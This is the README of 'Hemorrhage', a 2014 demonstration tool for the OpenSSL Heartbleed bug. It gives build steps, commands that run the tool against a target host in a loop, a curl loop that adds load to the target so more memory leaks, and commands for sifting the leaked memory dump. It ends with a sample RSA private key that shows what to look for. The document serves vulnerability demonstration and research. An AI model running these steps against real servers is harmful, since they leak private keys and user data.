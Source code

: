 Hemorrhage
==========

(c) 2014 Mike Shema, [@CodexWebSecurum](https://twitter.com/CodexWebSecurum)

[A Monstrous Confluence](https://deadliestwebattacks.com/2014/05/09/a-monstrous-confluence/)

Demonstrate the OpenSSL ["Heartbleed"](https://www.heartbleed.com/) vulnerability.

Refer to LICENSE file for license information.

Motivation
---
Use heartbleed as an excuse to experiment with C++11 and the Boost.ASIO library.

Compilation
---
Prerequisites:

 * Boost installation (http://www.boost.org/).
 * OpenSSL 1.0.1f [http://www.openssl.org/).

Edit the Makefile's BOOSTDIR and OPENSSLDIR path to match your environment.

````
$ make
````

If you wish to try to Boost.ASIO version, then use the asio target.

````
$ make asio
````

Only tested on Mac OS X. Should compile on any Unix-based system without issue. Windows will need some OpenSSL wrangling.

When using boost::asio::ssl, OpenSSL cannot be compiled with ````-DOPENSSL_NO_DEPRECATED````. Otherwise, you'll receive an undefined symbols error for ````_CRYPTO_set_id_callback```` and ````_ERR_remove_state```` at link time.

Collect Data
---
Note that you may have to adjust your LD_LIBRARY_PATH for hemorrhage to find the OpenSSL and Boost.System libraries at run-time.
On Mac OS X you'll need to set the DYLD_LIBRARY_PATH.

````
$ ./hemorrhage web.site | tee err
$ DYLD_LIBRARY_PATH=/opt/boost/libc++/lib/ ./hemorrhage web.site | tee err
````

Use an alternate port.

````
$ ./hemorrhage web.site 8443 | tee err
````

Loop against the target.

````
$ while [ 1 ]; do ./hemorrhage web.site | tee -a err; done
````

Review Output
---
Hemorrhage saves incoming heartbeat traffic to a hemoglo.bin file. This file will always be appended to. Delete it if you wish to start afresh.

````
$ strings hemoglo.bin | sort -u | tee words.txt
$ xxd hemoglo.bin
````


Generate Traffic
---
Maybe you'll find more interesting content if the target is handling more connections.

````
$ while [ 1 ]; do curl --insecure https://web.site/ ; done
````

Example Certificate
---
If you're searching for private key information, you'll be looking for items like prime1 and prime2.

````
$ openssl rsa -text -modulus -in example.key
Private-Key: (512 bit)
modulus:
    00:a3:95:f7:4e:c8:b3:45:c4:4e:85:0b:a6:7d:25:
    ad:f9:d4:c0:f5:52:96:4f:5f:07:86:5a:f4:98:ce:
    6b:7d:5f:e4:1c:22:8c:7b:af:45:bf:78:8d:92:1a:
    20:70:23:3b:03:f6:16:5d:56:49:b7:ce:aa:db:19:
    ca:6b:b5:53:e7
publicExponent: 65537 (0x10001)
privateExponent:
    00:96:ab:27:af:4e:b7:9f:c8:a1:31:75:7b:90:c4:
    c5:aa:d7:c4:29:b0:39:75:3d:67:a6:dd:db:6f:6a:
    a0:22:46:58:57:f4:24:0a:ff:40:72:0c:aa:31:78:
    b5:6e:cb:8c:ab:cb:1c:77:42:74:d8:d4:88:ae:06:
    58:b4:62:2c:31
prime1:
    00:d7:29:1f:1b:09:47:15:0d:21:17:44:9d:09:6a:
    fa:4b:c5:13:c0:39:5e:fb:7d:e7:9c:35:f8:c9:b5:
    1a:30:7d
prime2:
    00:c2:a2:c5:2a:cb:4f:bd:0f:f6:86:e9:01:52:ab:
    35:ff:d4:bf:70:96:16:ed:35:d5:71:1c:ae:3a:45:
    27:47:33
exponent1:
    00:cc:a2:9c:a5:ff:25:ee:fc:a4:bb:57:93:af:d0:
    62:2b:cc:4d:a3:a6:2d:13:2e:45:29:4a:1f:cb:e0:
    05:ff:95
exponent2:
    77:2b:2d:c9:3b:de:40:85:cb:8d:62:90:5a:cb:55:
    2e:a4:55:ea:5b:1b:02:75:d9:8f:7d:dd:f6:f3:6c:
    4f:1d
coefficient:
    50:c7:4a:c3:68:53:5d:f2:2e:39:62:8c:37:43:ba:
    79:a0:64:e2:20:8c:02:22:bf:bb:dc:f5:20:d3:b8:
    7b:d5
Modulus=A395F74EC8B345C44E850BA67D25ADF9D4C0F552964F5F07865AF498CE6B7D5FE41C228C7BAF45BF788D921A2070233B03F6165D5649B7CEAADB19CA6BB553E7
writing RSA key
-----BEGIN RSA PRIVATE KEY-----
MIIBOwIBAAJBAKOV907Is0XEToULpn0lrfnUwPVSlk9fB4Za9JjOa31f5BwijHuv
Rb94jZIaIHAjOwP2Fl1WSbfOqtsZymu1U+cCAwEAAQJBAJarJ69Ot5/IoTF1e5DE
xarXxCmwOXU9Z6bd229qoCJGWFf0JAr/QHIMqjF4tW7LjKvLHHdCdNjUiK4GWLRi
LDECIQDXKR8bCUcVDSEXRJ0JavpLxRPAOV77feecNfjJtRowfQIhAMKixSrLT70P
9obpAVKrNf/Uv3CWFu011XEcrjpFJ0czAiEAzKKcpf8l7vyku1eTr9BiK8xNo6Yt
Ey5FKUofy+AF/5UCIHcrLck73kCFy41ikFrLVS6kVepbGwJ12Y993fbzbE8dAiBQ
x0rDaFNd8i45Yow3Q7p5oGTiIIwCIr+73PUg07h71Q==
-----END RSA PRIVATE KEY-----
````

Other Resources
---
[cloudflare_challenge notes by epixoip](https://gist.github.com/epixoip/10570627).

[heartleech](https://github.com/robertdavidgraham/heartleech) tool.

[Metasploit](http://www.metasploit.com) examples for [server](http://www.rapid7.com/db/modules/auxiliary/scanner/ssl/openssl_heartbleed) and [client](http://www.rapid7.com/db/modules/auxiliary/server/openssl_heartbeat_client_memory). These include additional background references.

[Nmap's](http://nmap.org/download.html) [ssl-heartbleed.nse](https://svn.nmap.org/nmap/scripts/ssl-heartbleed.nse) script.

[SSL Pulse](https://www.trustworthyinternet.org/ssl-pulse/) regarding public SSL/TLS web sites.

